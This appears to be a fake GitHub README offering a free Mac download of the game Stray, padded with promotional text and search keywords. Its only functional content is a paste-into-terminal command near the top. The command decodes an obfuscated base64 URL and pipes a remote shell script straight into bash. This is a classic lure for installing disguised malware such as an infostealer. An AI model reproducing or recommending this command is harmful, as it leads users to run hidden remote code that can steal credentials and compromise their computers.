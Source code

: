 # Stray Mac Download - An Immersive Cyberpunk Feline Adventure

![Stray Game Screenshot](https://gaming-cdn.com/images/products/8260/orig/stray-pc-mac-game-steam-europe-and-us-and-canada-cover.jpg)

---

### 🔽 Download Stray for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Stray for Mac?

Stray is the critically acclaimed cyberpunk adventure game that lets you explore a futuristic world through the unique perspective of a stray cat. Developed by BlueTwelve Studio, this award-winning title masterfully blends puzzle-solving mechanics, atmospheric exploration, and emotional narrative storytelling with stunning visual design. Traverse through neon-drenched alleyways, form unexpected bonds with enigmatic robotic inhabitants, and gradually unravel the mysteries of a long-abandoned cybercity.

Breaking away from conventional adventure games, Stray delivers remarkably authentic feline behaviors - scratch at carpets and furniture, playfully knock items from surfaces, or find cozy spots to curl up for impromptu naps. The advanced physics-based movement system ensures every leap, climb, and landing feels fluid and true to life, while the intricately designed environments react organically to your presence and actions. Complemented by its touching storyline and wholly original viewpoint, Stray creates a profound gaming experience that lingers in your memory well beyond the concluding scenes.

The Mac version has been meticulously optimized to take full advantage of both Intel-based systems and the latest Apple Silicon architecture. Experience buttery-smooth gameplay with enhanced high-resolution textures, improved shadow rendering, and dynamic lighting effects that elevate the cyberpunk atmosphere to unprecedented levels of immersion. Additional Mac-specific optimizations ensure stable performance across a wide range of hardware configurations while preserving the game's distinctive visual style.

![Stray Gameplay](https://www.macgamerhq.com/wp-content/uploads/2023/12/MacBook-M3-Pro-Max-Stray-Gameplay.png)

---

## Key Features & Benefits

- 🐾 Play as a realistic stray cat with authentic behaviors  
- 🌆 Explore a stunning cybercity full of secrets  
- 🧩 Solve environmental puzzles with feline agility  
- 🤖 Interact with unique robot characters  
- 🎵 Immersive soundtrack enhancing the cyberpunk atmosphere  
- 🖥 Optimized for Mac (Intel & Apple Silicon)  

Whether you're a cat lover, cyberpunk enthusiast, or adventure game fan, Stray delivers a purr-fect blend of exploration, storytelling, and unique gameplay mechanics.

---

## 🔍 Keywords

Stray for Mac, Stray Mac Download, Stray for Mac Download, Stray Mac, Stray Download Mac, Stray Download for Mac, Stray full version, Mac Download Stray, Download Mac Stray, Download Stray Mac, Download Stray for Mac

